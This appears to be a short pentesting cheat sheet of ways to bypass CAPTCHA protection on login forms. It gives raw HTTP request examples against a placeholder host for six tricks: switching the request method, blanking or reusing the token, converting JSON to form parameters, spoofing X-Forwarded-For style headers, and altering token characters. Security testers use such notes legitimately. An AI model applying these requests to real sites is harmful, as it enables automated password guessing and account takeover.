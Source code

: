 ```yaml
---
title: "Bypass Captcha"
author: ["4shen0ne"]
draft: false
---
```


## Try changing the request method, for example POST to GET {#try-changing-the-request-method-for-example-post-to-get}

```nil
POST / HTTP 1.1
Host: target.com
...

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123
```

Change the method to GET

```nil
GET /?_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123 HTTP 1.1
Host: target.com
...
```


## Try remove the value of the captcha parameter {#try-remove-the-value-of-the-captcha-parameter}

```nil
POST / HTTP 1.1
Host: target.com
...

_RequestVerificationToken=&_Username=daffa&_Password=test123
```


## Try reuse old captcha token {#try-reuse-old-captcha-token}

```nil
POST / HTTP 1.1
Host: target.com
...

_RequestVerificationToken=OLD_CAPTCHA_TOKEN&_Username=daffa&_Password=test123
```


## Convert JSON data to normal request parameter {#convert-json-data-to-normal-request-parameter}

```nil
POST / HTTP 1.1
Host: target.com
...

{"_RequestVerificationToken":"xxxxxxxxxxxxxx","_Username":"daffa","_Password":"test123"}
```

Convert to normal request

```nil
POST / HTTP 1.1
Host: target.com
...

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123
```


## Try custom header to bypass captcha {#try-custom-header-to-bypass-captcha}

```nil
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
```


## Change some specific characters of the captcha parameter and see {#change-some-specific-characters-of-the-captcha-parameter-and-see}

If it is possible to bypass the restriction.

```nil
POST / HTTP 1.1
Host: target.com
...

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123
```

Try this to bypass

```nil
POST / HTTP 1.1
Host: target.com
...

_RequestVerificationToken=xxxdxxxaxxcxxx&_Username=daffa&_Password=test123
```

